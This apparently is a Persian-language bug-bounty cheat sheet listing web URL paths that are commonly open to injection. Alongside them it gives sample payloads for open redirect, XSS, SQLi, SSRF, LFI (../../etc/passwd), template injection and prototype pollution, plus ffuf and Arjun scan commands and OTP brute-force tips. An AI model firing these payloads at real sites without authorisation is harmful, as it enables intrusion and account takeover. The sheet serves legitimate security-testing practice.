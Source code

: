 # merge

===>>> open redirect & xss


payload: continue_url=attacker.com
payload: { javas%09cript:alert(1)}




==================================

در سال ۲۰۲۵، شکارچیان آسیب‌پذیری (Bug Bounty Hunters) اغلب موفق به کشف باگ‌هایی شده‌اند که از طریق تزریق payload در URLهای خاص و رایج اپلیکیشن‌های وب اتفاق افتاده‌اند. این URLها معمولاً در مسیرهایی قرار دارند که یا:

1. داده‌ای را از کاربر دریافت و رندر می‌کنند،


2. عملیات احراز هویت، بازنشانی، ریدایرکت یا تعامل با API انجام می‌دهند،


3. یا لاگیک سمت سرور یا کلاینت در آن‌ها حضور دارد.




---

📌 مهم‌ترین مسیرها (URLs) برای تزریق در ۲۰۲۵

بر اساس صدها write-up در HackerOne، Bugcrowd و گزارش‌های سال ۲۰۲۵، این URLها بیشترین آسیب‌پذیری‌های تزریقی را در خود داشته‌اند:


---

🔥 ۱. مسیرهای ریدایرکت، callback و return:

مسیر	توضیح	تست با

/redirect?url=FUZZ	آسیب‌پذیری Open Redirect / XSS	//evil.com، javascript:alert(1)
/auth/callback?next=FUZZ	حمله ریدایرکت یا cookie theft	URLهای شخص ثالث
/continue?redirect=FUZZ	Bypass احراز هویت	URL encoding


⛏ نکته: اغلب بدون validation کامل یا بدون allowlist هستند. می‌توان XSS یا session hijacking اجرا کرد.


---

💥 ۲. مسیرهای جستجو، فیلتر، sort یا نمایش نتایج:

مسیر	توضیح	تست با

/search?q=FUZZ	XSS / SQLi / LFI	"><img src=x onerror=alert(1)> یا '--
/filter?category=FUZZ	SSRF یا SQLi	http://127.0.0.1 یا UNION SELECT
/sort?by=FUZZ	RCE یا logic bypass	{{7*7}} یا $ne:null



---

🧠 ۳. مسیرهای API یا فایل JSON/XML:

مسیر	نوع حمله	نمونه تست

/api/user/update (POST)	Prototype Pollution	{"__proto__": {"isAdmin": true}}
/api/upload	File Upload	تغییر MIME و نام فایل
/graphql	Injection / Access	Mutation و introspection queries



---

🧨 ۴. مسیرهای احراز هویت:

مسیر	نوع آسیب‌پذیری	تست

/login, /register, /reset	SQLi، Logic Bypass	admin' --, یا تغییر role در JWT
/password/change	IDOR / CSRF	تست user ID‌های مختلف یا ارسال از دامنه دیگر
/2fa/verify?code=FUZZ	Rate-limit / brute force	ارسال سریع کدهای OTP



---

🧪 ۵. مسیرهای preview و embed:

مسیر	آسیب‌پذیری	نمونه تزریق

/preview?file=FUZZ	LFI / XSS	../../etc/passwd, javascript:
/embed?url=FUZZ	SSRF / Clickjacking	http://127.0.0.1 یا iframe مخرب



---

📚 منابعی که بر اساس آن‌ها این URLها اولویت‌بندی شده‌اند:

گزارش رسمی HackerOne 2025 Top Reports

مقالات top hunters مثل Pratham Shah و s0md3v

ریپورت‌های Bugcrowd و Integrity از راه‌یافتگان Hall of Fame

ابزارهای Fuzzer مدرن مثل ParamMiner, ffuf, Arjun, و Kiterunner



---

✅ پیشنهاد: ابزار اتوماتیک تست این مسیرها

برای اسکن سریع این مسیرها، می‌تونی از ابزار زیر استفاده کنی:

ffuf -u https://target.com/FUZZ -w paths.txt -mc 200,302

یا از Arjun برای شناسایی پارامترهای تزریقی:

python3 arjun.py -u https://target.com/page -o found.txt


---

🧭 اگر دامنه‌ای خاص داری (مثلاً CMS یا API خاص)، بگو تا مسیرهای اختصاصی اون رو تحلیل کنیم.

در غیر این صورت، پیشنهاد می‌کنم مسیرهای زیر را به‌عنوان تست اولیه در هر هدفی بررسی کنی:

/redirect?url=
/search?q=
/login?next=
/api/user/update
/embed?url=
/reset?email=
/preview?file=
/sort?order=

===============================

